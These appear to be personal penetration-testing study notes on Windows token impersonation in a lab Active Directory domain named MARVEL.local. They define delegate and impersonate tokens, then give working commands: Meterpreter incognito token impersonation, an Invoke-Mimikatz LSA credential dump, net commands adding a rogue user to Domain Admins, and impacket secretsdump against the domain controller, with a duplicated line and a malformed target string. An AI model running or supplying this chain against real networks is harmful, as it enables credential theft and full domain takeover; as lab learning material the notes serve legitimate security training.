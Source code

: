 # Token Impersonation Overview
> 08.08.2024
---

## What are tokens?
- Tokens are temporary keys that allows access to a system without providing credentials. Cookies for example are tokens!

## Token types:
- *Delegate* tokens are used for logging into a machine
- *Impersonate* tokens are used for non-interactive tasks such as attaching a network drive or a domain logon script


## Token Impersonation using msf:
After shell access:
```meterpreter
getuid
load incognito
list_tokens -u

impersonate_token marvel\\fcastle
shell
```
Successful impersonation will result a shell as the domain user!

## Dump hashes with mimikatz
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /patch" exit' -Computer HYDRA.marvel.local
```

## Attempt to add a new user as Domain Admin:
```powershell
net user /add hawkeye Password1@ /domain net user /add hawkeye Password1@ /domain

net group "Domain Admins" hawkeye /ADD /DOMAIN
```

## Compromise the DC
```bash
Impacket-secretsdump MARVEL.local/hawkeye:'Password1@'192.168.19.128
```